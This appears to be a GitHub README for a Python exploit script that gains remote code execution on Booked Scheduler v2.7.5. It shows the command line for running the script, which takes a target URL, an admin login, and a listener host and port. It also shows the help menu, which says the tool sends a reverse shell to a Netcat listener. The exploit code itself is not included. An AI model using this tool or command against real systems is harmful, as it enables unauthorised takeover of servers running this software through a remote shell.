 # bookedScheduler_v2.7.5_RCE
Automatic exploitation script written in python 3 to exploit "Book Scheduler v2.7.5"

<hr>

#### 1. Basic Usage: 
```txt
$ python3 booked_sheduler.py --url http://127.0.0.1 -u <admin> -p <adminpass> -P <pentesterPort> -H <pentesterIP>
```

#### 2. Help Menu:
```txt
usage: booked_scheduler.py [-h] [--url URL] [-u USER] [-p PASSWORD] [-P LPORT] [-H LHOST]

--- Booked Scheduler v2.7.5 ---

optional arguments:
  -h, --help            show this help message and exit
  --url URL             url (i.e http://192.168.167.64/booked/Web)
  -u USER, --user USER  ADMIN user
  -p PASSWORD, --password PASSWORD
                        ADMIN password
  -P LPORT, --lport LPORT
                        Netcat's port to catch reverse shell
  -H LHOST, --lhost LHOST
                        Netcat's host to catch reverse shell
```

#### 3. Example
![](example.gif)
